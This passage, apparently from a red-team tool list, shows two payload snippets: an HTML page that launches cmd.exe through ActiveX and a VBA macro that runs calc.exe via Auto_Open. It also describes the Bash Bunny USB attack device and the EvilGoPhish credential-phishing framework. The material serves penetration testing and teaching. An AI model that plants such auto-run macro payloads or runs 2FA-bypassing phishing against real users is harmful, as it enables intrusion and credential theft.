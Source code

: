 **Creating payload:**

```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

**Execute:** Run file

### [🔙](#tool-list)VBA

**Creating payload:**

```python
Sub calc()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

**Execute:** Set function to Auto_Open() in macro enabled document

Initial Access
====================

### [🔙](#tool-list)[Bash Bunny](https://shop.hak5.org/products/bash-bunny)

The Bash Bunny is a physical USB attack tool and multi-function payload delivery system. It is designed to be plugged into a computer's USB port and can be programmed to perform a variety of functions, including manipulating and exfiltrating data, installing malware, and bypassing security measures.

[hackinglab: Bash Bunny – Guide](https://hackinglab.cz/en/blog/bash-bunny-guide/)

[Hak5 Documentation](https://docs.hak5.org/bash-bunny/)

[Nice Payload Repo](https://github.com/hak5/bashbunny-payloads)

[Product Page](https://hak5.org/products/bash-bunny)

![image](https://user-images.githubusercontent.com/100603074/209868292-cc02ce20-7d8e-4019-b953-7082fb0eb828.png)

### [🔙](#tool-list)[EvilGoPhish](https://github.com/fin3ss3g0d/evilgophish)

evilginx2 + gophish. (GoPhish) Gophish is a powerful, open-source phishing framework that makes it easy to test your organization's exposure to phishing. (evilginx2) Standalone man-in-the-middle attack framework used for phishing login credentials along with session cookies, allowing for the bypass of 2-factor authentication

